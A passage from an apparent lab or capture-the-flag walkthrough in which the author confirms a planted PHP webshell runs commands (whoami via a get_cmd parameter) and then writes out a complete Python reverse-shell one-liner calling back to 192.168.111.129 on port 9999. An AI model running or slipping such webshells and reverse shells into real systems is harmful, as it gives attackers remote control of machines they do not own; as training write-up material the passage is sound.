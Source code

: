 so now if we click on it
![Pasted image 20250511234333](MediaFiles/Pasted%20image%2020250511234333.png)
we see some output, lets now check if we can run commands via get_cmd (which we specified in the webshell via shell_exec)
![Pasted image 20250511234426](MediaFiles/Pasted%20image%2020250511234426.png)
and we can see, we can run commands, and above was an example of running the whoami command
nice, our webshell worked, lets continue now, 

so for our convenience, it would make more sense if we could get a rev shell

```python
export RHOST="192.168.111.129";export RPORT=9999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

and similarly we placed it here